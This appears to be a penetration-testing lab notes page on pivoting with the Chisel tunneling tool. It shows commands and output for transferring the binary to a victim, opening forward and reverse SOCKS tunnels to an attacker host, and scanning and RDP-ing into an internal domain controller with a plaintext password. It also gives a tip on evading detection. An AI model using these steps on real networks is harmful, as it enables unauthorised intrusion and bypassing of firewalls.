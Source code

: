 ```yaml
---
description: >-
  Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to
  transport data that is secured using SSH. Chisel can create a client-server
  connection in a firewall restricted environment.
---
```


# Chisel

<mark style="color:red;">**IMPORTANT:**</mark>** We need to be mindful of the size of files we transfer onto targets, not just for performance reasons but also considering detection. Some useful links to proceed:**

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

**Cloning Chisel**

```shell-session
attacker@kali$ git clone https://github.com/jpillora/chisel.git
```

**Building the Chisel Binary**

```shell-session
attacker@kali$ cd chisel
go build
```

**We can use SCP to transfer the binary to the victim.**

**Transferring Chisel Binary to Pivot Host**

```shell-session
attacker@kali$ scp chisel victim@10.129.202.64:~/home/victim
```

**Running the Chisel Server on the Pivot Host**

```shell-session
victim@ubuntu$ ./chisel server -v -p 1234 --socks5
```

The Chisel listener will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and _**forward it to all the networks that are accessible on the pivot host.**_\
\
We can start a client on our attack host and connect to the Chisel server.

**Connecting to the Chisel Server**

```shell-session
attacker@kali$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

In the above output, the Chisel client creates a TCP/UDP tunnel via HTTP using SSH between the Chisel server and the client and starts a listener on local port 1080. _**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_\


```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Chisle Reverse Pivot

In the previous example, we transfered a chisel binary to the compromised victim machine and started a listener on port 1234. Commonly, there will be scenarios where firewalls restrict inbound connections to our target. In such cases, we can use Chisel with the reverse tunnel option.

With the Chisel --reverse (-R) enabled, The server (attack host) will listen and accept connections and then be proxied through the client.

**Starting the Chisel Server on our Attack Host**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo ./chisel server --reverse -v -p 1234 --socks5
</strong></code></pre>

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

**Connecting the Chisel Client to our Attack Host**\


```shell-session
victim@ubuntu$ ./chisel client -v 10.10.14.17:1234 R:socks
```

_**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_

```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
